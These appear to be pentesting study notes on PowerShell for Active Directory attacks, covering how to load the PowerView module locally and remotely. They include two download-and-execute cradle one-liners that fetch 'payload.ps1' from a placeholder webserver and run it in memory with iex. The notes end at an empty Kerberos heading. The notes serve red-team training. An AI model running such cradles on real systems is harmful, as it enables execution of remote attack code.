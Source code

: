 



# Good Theory

# PowerShell

Powershell provides access to almost everythin in a Windows platform and Active Directory environment.

It is based on .NET framework and is tightly integreated with Windows.

Note - Powershell is no the blue screen powershell.exe which you run, it is actually `system.Management.Automation.dll`. The blue console which you run is just one of the way to execute powershell.

Windows Powershell - powershell that comes with Windows platform
Powershell Core - it is platform independent

**Load PowerShell Module**

1. Using dot sourcing
```
> . C:\AD\Tools\PowerView.ps1
```
2. Using Import-Module
```
Import-Module C:\AD\Tools\PowerView.ps1
```
3. All commands in a module can be listed with:
```
Get-Command -Module <modulename>
```
**Load Powershell Module Remotely**

To load remotely we can use `Download execute cradle`

Old and Lengthy way using 
```
iex (New-Object Net.WebClient).DownloadString('http://webserver/payload.ps1')
```
Basically what we are doing above is, we are creating an object of .NET class called Net.WebClient which contains a method called DownloadString which downloads the powershell script in memory which (iex) ie Invoke Expression can execute

From PS3 onwards    
```
iex (iwr 'http://webserver/payload.ps1')
```






## Kerberos

A simplified overview of Kerberos:
